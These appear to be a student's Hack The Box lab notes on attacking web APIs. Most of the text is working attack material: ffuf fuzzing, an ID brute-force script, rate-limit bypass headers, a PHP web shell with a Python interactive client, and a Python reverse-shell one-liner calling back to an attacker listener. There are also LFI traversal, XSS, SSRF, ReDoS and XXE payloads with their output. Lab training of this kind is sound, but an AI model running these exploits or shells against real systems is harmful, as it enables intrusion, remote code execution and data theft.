






API Attacks
Information Disclosure
Maybe there is a parameter that will reveal the API's functionality. Fuzzing:
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value'
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.1 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://<TARGET IP>:3003/?FUZZ=test_value
:: Wordlist : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
________________________________________________
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorpassword [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorurl [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [41/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorc [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [42/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorid [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [43/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Erroremail [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [44/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortype [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [45/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorusername [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [46/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorq [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [47/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortitle [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [48/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordata [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [49/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordescription [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [50/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorfile [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [51/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errormode [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [52/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [53/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errororder [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [54/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorcode [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [55/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorlang [Status: 200, Size: 19, Words: 4, Lines: 1]
After filtering:
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.1 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://<TARGET IP>:3003/?FUZZ=test_value
:: Wordlist : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
:: Filter : Response size: 19
________________________________________________
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 id [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [57/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [187/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [375/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [567/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [755/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [952/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [1160/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:
:: Progress: [1368/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:
:: Progress: [1573/2588] :: Job [1/1] :: 1720 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1752/2588] :: Job [1/1] :: 1437 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1947/2588] :: Job [1/1] :: 1625 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2170/2588] :: Job [1/1] :: 1777 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2356/2588] :: Job [1/1] :: 1435 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2567/2588] :: Job [1/1] :: 2103 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
Looks like id is a valid parameter. Checking further:
d41y@htb[/htb]$ curl http://<TARGET IP>:3003/?id=1
[{"id":"1","username":"admin","position":"1"}]
Possible Python bruteforcing script:
import requests, sys
def brute():
try:
value = range(10000)
for val in value:
url = sys.argv[1]
r = requests.get(url + '/?id='+str(val))
if "position" in r.text:
print("Number found!", val)
print(r.text)
except IndexError:
print("Enter a URL E.g.: http://<TARGET IP>:3003/")
brute()
Result can look like this:
d41y@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
If there is a rate limiting you can try bypassing it through headers such as X-Forward-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. Example:
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
header("HTTP/1.1 401 Unauthorized");
}
else
{
print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
Information Disclosure through SQLi
SQLi vulns can affect APIs as well. That id parameter looks interesting.
Arbitrary File Upload
... enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server.
PHP File Upload via API to RCE
Browsing the app, an anonymous file uploading functionality sticks out.

Create the below file and try to upload it via the available functionality:
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
The above allows you to append the parameter cmd to your request, which will be executed using system(). This is if you can determine its location, if the file will be rendered successfully and if no PHP function restrictions exist.

- it was successfully uploaded via a POST request to
/api/upload - content type has been automatically set to ```application/x-php``, which means there is no protection in place
- uploading a file with a .php extension is also allowed
- you also receive the location where your file is stored,
http://<TARGET IP>:3001/uploads/backdoor.php
You can easily obtain a shell with the following Python script:
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
os.system("clear") # clear the screen (linux)
while True: # starts a while loop (never ending loop)
try: # try statement
cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
time.sleep(0.3) # waits 0.3 seconds during each request
except requests.exceptions.InvalidSchema: # error handling
print("Invalid URL Schema: http:// or https://")
except requests.exceptions.ConnectionError: # error handling
print("URL is invalid")
Usage:
d41y@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Pyhton script above:
d41y@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
LFI
... allows an attacker to read internal files and sometimes execute code on the server via a series of ways.
Suppose you are assessing such a vulnerable API.
First, interact with it:
d41y@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
Try fuzzing common API endpoints:
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.1 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://<TARGET IP>:3000/api/FUZZ
:: Wordlist : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
________________________________________________
:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
Looks like /api/download is a valid API endpoint:
d41y@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
You need to specify a file, but you don't have any knowledge of stored files on their naming scheme. You can try mounting a LFI attack:
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc
# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
XSS
... may allow an attacker to execute arbitrary JS code within the target's browser and result in complete web app compromise if chained together with other vulns.
First, interact with it through the browser by requesting the below:

test_value is reflected in the response.
If you enter:
<script>alert(document.domain)</script>
... it leads to:

It looks like the app is encoding the submitted payload. You can try URL-encoding your payload once and submitting it again:
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

Now your submitted JS payload is evaluated successfully.
SSRF
... allows an attacker to abouse server functionality to perform internal or external resource requests on behalf of the server.
Can lead to:
- interacting with known internal systems
- discovering internal services via port scans
- disclosing local/sensitive data
- including files in the target application
- leaking NetNTLM hashes using UNC Paths
- achieving RCE
Interact with the API:
d41y@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
The API is expecting a parameter called id.
d41y@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
Then specify http://<VPN/TUN Adapter IP>:<LISTENER PORT> as the value of the id parameter and make an API call.
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
You notice an error about the parameter being invalid.
In many cases, APIs expect parameter values in a specific format/encoding.
d41y@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
When you make the API call, you will notice a connection being made to your Netcat listener:
d41y@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
RegEx Denial of Service (ReDos)
Suppose you have a user that submits benign input to an API. On the other side, a dev could match any input against a regular expression. After a usually constant amount of time, the API responds. In some instances, an attacker may be able to cause significant delays in the API's response time by submitting a crafted payload that tries to exploit some particularities/inefficiencies of the regular expression matching engine. The longer this crafted payload is, the longer the API will take to respond. Exploiting such "evil" patterns in regular expressions to increase evaluation time is called a RegEx Denial of Service attack.
Interact with the API:
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
You can use this website for an in-depth explanation, and this website for a visualization.
Then, submit the following valid value and see how long the API takes to respond.
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
You will notice that the API takes several seconds to respond and that longer payloads increase the evaluation time.
XXE Injection
... occurs when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow you to use XML features to perform malicious actions.
Interact with the target and notice that there is a authentication page. Try to authenticate:

or in plain http:
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1
<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
User authentication is generating XML data.
Try crafting an exploit to read internal files.
First, you will need to append a DOCTYPE to this request.
note
DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special chars or strings used in the documents. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource.
The current payload:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
You defined a DTD called pwn, and inside of that, you have an ENTITY. You may also define custom entities in XML DTDs to allow refactoring of variables and reduce reptitive data. This can be done using the ENTITY keyword, followed by the ENTITY name and its value.
You have called your external entity somename, and it will use the SYSTEM keyword, which must have the value of a URL or you can try using a URI scheme/protocol such as file:// to call internal files.
Set up a listener:
d41y@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
Now make an API call containing the payload you crafted above:
d41y@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
You notice no connection being made to the listener. This is because you have defined your external entity, but you haven't tried to use it.
d41y@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
After the call to the API, you will notice a connection being made to the listener:
d41y@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```<!-- {% embed footer message="2025 • Created by [d41y](https://github.com/d41y)" %} -->
<div data-embedify data-app="footer" data-option-message="2025 • Created by [d41y](https://github.com/d41y)" style="display:none"></div>
<style>footer { text-align: center; text-wrap: balance; margin-top: 5rem; display: flex; flex-direction: column; justify-content: center; align-items: center; } footer p { margin: 0; }</style><footer><p>2025 • Created by <a href="https://github.com/d41y">d41y</a></p></footer>